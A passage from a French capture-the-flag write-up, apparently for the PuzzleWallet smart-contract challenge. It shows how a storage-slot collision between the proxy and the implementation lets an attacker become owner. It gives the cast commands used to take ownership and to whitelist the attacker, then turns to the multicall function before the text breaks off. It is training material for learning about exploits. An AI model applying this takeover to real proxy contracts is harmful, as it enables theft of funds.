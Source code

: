 donc si on modifie maxBalance de PuzzleWallet en passant par le contrat proxy c'est admin qui sera modifier

## Exploitation 

Bon j'ai trouver la faille mais on ne peut pas directement modifier maxbalance ce serait trop facile, cependant init() permet de le faire a condition que maxBalance soit a 0

il y a une fonction setMaxBalance mais on doit etre whitelist et la balance du contrat doit etre a 0 (elle contient 0.001 eth)

On va dabord essayer de ce whitelist pour ca il y a une fonction qui permet d'ajouter une adresse whitelist mais il fait etre owner pour faire ceci.

Sur le contrat proxy il y a cette fonction :

```
function proposeNewAdmin(address _newAdmin) external {
        pendingAdmin = _newAdmin;
    }
```

qui modifie pending admin qui est au slot 0 du proxy, le slot 0 de l'implementation est la variable owner, encore une autre faille.

On va donc apeller la fonction proposeNewAdmin() avec notre adresse en paramettre pour que lorsqu'on apellera l'implementation via le proxy, l'adresse stockee dans owner sera la notre 

```
cast send $TARGET "proposeNewAdmin(address)" 0x...monadresse... -r $RPC --private-key $PK
```

pour verifier je vais apeller le getter cree pour owner car il est declare en public 

```
cast call $TARGET "owner()" -r $RPC

0x00000000000000000000000000000000000000000000000000000monaddresse
```

Bingo je suis desormais owner du contrat d'implementation je peut donc me whitelist

```
cast send $TARGET "addToWhitelist(address)" 0x...monadresse... -r $RPC --private-key $PK
```

La suite est plus technique regardons en detail le multicall
```
function multicall(bytes[] calldata data) external payable onlyWhitelisted {
    bool depositCalled = false;
    for (uint256 i = 0; i < data.length; i++) {
        bytes memory _data = data[i];
        bytes4 selector;
        assembly {
            selector := mload(add(_data, 32))
        }
        if (selector == this.deposit.selector) {
            require(!depositCalled, "Deposit can only be called once");
            // Protect against reusing msg.value
            depositCalled = true;
        }
        (bool success,) = address(this).delegatecall(data[i]);
        require(success, "Error while delegating call");
    }
}
```
